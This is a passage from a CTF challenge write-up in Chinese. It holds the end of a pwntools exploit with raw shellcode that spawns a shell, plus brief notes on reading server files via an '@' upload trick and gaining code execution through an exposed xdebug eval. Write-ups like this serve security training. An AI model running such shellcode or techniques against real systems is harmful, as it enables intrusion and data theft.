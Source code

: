 ```python

 

shellcode ='\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05\x90'

make_note(shellcode)

delete_note()

io.interactive()
```



### cat

rr的题，看了看文档，发现可以利用@先读取index.php，然后在报错信息中发现有/opt/api/database.sqlite3，读取发现flag:

![cat](cat.png)

### Emmm

phpinfo发现开启了xdebug，然后利用vim的插件去远程调试，有一个`,e`操作，实际就是eval，从而拿到flag:
